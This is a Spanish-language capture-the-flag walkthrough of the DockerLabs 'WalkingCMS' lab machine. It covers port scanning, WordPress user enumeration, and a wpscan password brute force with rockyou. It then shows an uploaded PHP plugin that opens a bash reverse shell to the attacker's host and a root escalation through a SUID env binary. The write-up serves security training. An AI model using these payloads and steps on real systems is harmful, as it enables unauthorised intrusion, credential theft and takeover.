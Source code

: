 #MAQUINA #DOCKERLABS #FACIL 
#WPSCAN 
<hr>

# RECONOCIMIENTO

Vamos a resolver **WalkingCMS** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 09:45 CET
Initiating ARP Ping Scan at 09:45
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 09:45, 0.07s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 09:45
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 09:45, 0.48s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-09 09:45:07 CET for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 09:45 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.42 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-09 09:46 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /wordpress/: Blog
|_  /wordpress/wp-login.php: Wordpress login page.
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.06 seconds

whatweb "http://172.17.0.2/wordpress"
http://172.17.0.2/wordpress [301 Moved Permanently] Apache[2.4.57], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[172.17.0.2], RedirectLocation[http://172.17.0.2/wordpress/], Title[301 Moved Permanently]
http://172.17.0.2/wordpress/ [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[172.17.0.2], MetaGenerator[WordPress 6.7.1], Script[importmap,module], Title[Web Invulnerable], UncommonHeaders[link], WordPress[6.7.1]

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:**  **wordpress**.
## HTTP (80)

Usamos **wpscan** :
   ```bash
wpscan --url "http://172.17.0.2/wordpress/" --enumerate u

```

**Usuario -> mario**

   ```bash
 wpscan --url "http://172.17.0.2/wordpress/" -U mario -P /usr/share/wordlists/rockyou.txt
 
```

**Usuario -> mario**
**Contrasena -> love**
# EXPLOTACION

Nos registramos como mario (http://172.17.0.2/wordpress/wp-login.php).

Nos vamos a plugins y subimos y activamos un plugin. Vamos a subir un zip que nos otorgue una reverse shell y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**).
Contenido del zip, un php con:

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUID:
   ```bash
   
www-data@ece92b2a94e0:/$ find / -perm -4000 2>/dev/null
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/env


```

Vemos **env** con permisos SUID :
   ```bash
www-data@ece92b2a94e0:/$ /usr/bin/env /bin/sh -p
# whoami
root
# 

```

**YA ESTAMOS COMO ROOT.**
